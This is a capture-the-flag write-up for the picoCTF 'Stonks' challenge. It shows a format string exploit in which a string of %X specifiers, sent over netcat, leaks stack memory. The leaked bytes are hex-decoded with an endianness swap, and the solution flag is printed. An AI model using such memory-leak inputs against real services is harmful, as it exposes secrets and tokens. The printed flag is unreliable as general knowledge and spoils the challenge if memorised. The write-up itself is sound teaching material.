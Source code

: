 # Stonks

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 59616

## Solution

connect netcat
```
$ nc mercury.picoctf.net 59616
```

Use the string '%x' to exploit a format string vulnerability to print values ​​from the stack in hexadecimal format.
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X
Buying stonks with token:
8B7D410804B00080489C3F7F43D80FFFFFFFF18B7B160F7F51110F7F43DC708B7C18028B7D3F08B7D4106F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3834313634356562FFC3007DF7F7EAF8F7F51440CD6EF40010F7DE0CE9F7F520C0F7F435C0F7F43000FFC347D8F7DD168DF7F435C08048ECAFFC347E40F7F65F09804B000F7F43000F7F43E20FFC34818F7F6BD50F7F44890CD6EF400F7F43000804B000FFC348188048C868B7B160FFC34804FFC34818
Portfolio as of Sun Mar  2 03:43:55 UTC 2025
```

In this case, %X%X%X... is used to read data from the stack and see if there is any sensitive information that can be exposed, such as memory addresses, hidden variables, or even flags.

After that, decode from hex to text.

![stonk1](https://i.imgur.com/wa7LvQH.png)

We got the flag but it's still in the wrong format, so try to decode it again from hex to text.

![stonk2](https://i.imgur.com/UgrsheD.png)

Do the decode again, use cyberchef with recipe **swap endianness** and **from hex**

![stonk3](https://i.imgur.com/NUQAiNL.png)

## Flag
    picoCTF{I_l05t_4ll_my_m0n3y_6148be54}